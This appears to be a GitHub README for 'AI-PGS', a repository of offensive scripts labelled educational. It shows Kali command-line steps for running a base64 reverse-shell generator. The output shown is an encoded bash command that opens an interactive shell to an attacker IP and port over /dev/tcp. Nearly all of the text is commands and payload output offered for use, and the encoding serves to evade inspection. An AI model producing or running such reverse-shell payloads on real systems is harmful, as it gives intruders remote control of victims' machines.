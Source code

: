 # AI-PGS
# Focus on Cyber Kill Chain Framework for educational purposes. Harness AI to generate diverse, high-quality scripts from user prompts. Explore various genres with customizable parameters.
To use the scripts on this vault follow the instructions:
1 - Paste the code on your Command Line (CLI) and remove the text (.txt) extension:
    ┌──(kali㉿kali)-[~]
    └─$ view BASE64-Reserse-Shell-Prompter.py
2 - Provide Execution (+x) permissions:
    ┌──(kali㉿kali)-[~]
    └─$ chmod +x BASE64-Reserse-Shell-Prompter.py
3 - Use the script:
    ┌──(kali㉿kali)-[~]
    └─$ python BASE64-Reserse-Shell-Prompter.py 10.10.14.211 1234
Base64-encoded Bash shell session command:
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTEvMTIzNCAwPiYx

The following methods can discover the usage:
- Analyze the source code:
    ┌──(kali㉿kali)-[~]
    └─$ less BASE64-Reserse-Shell-Prompter.py

- Check if a usage prompt is available:
    └─$ python BASE64-Reserse-Shell-Prompter.py 
Usage: python script.py <ip_address> <port>

